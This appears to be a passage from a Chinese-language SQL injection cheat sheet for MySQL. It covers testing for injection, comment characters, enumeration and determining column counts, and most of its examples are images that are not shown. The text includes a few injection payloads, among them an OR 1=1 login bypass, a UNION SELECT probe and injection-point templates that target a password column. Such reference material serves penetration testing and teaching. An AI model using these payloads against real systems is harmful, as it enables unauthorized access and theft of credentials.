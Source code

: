 比较操作(=, like, mod(), …)

字符串的猜解操作(mid(), left(), rpad(), …)

字符串生成操作(0x61, hex(), conv()(使用conv([10-36],10,36)可以实现所有字符的表示))

<br>

**测试注入**

可以用以下语句对一个可能的注入点进行测试

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01eb936236b9d9d96c.png)

<br>

**注释符**

以下是Mysql中可以用到的注释符：

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ac901bace4cef772.png)

Examples:

```
SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';
```



**版本&amp;主机名&amp;用户&amp;库名**

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t018291c436b003948a.png)

<br>

**表和字段**

**确定字段数**

**ORDER BY**

ORDER BY用于判断表中的字段个数

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01ff80a493e1d53f54.png)

**SELECT … INTO**

关于SELECT … INTO 的解释可以看这一篇文章[SELECT … INTO解释](http://www.w3school.com.cn/sql/sql_select_into.asp)

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01f4578480fd2cc03c.png)

当出现LIMIT时可以用以下语句：

```
SELECT username FROM Users limit 1,{INJECTION POINT};
```

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013479aebc9b69501a.png)

**判断已知表名的字段数**



```
AND (SELECT * FROM SOME_EXISTING_TABLE) = 1
SELECT passwd FROM Users WHERE id = {INJECTION POINT};
```
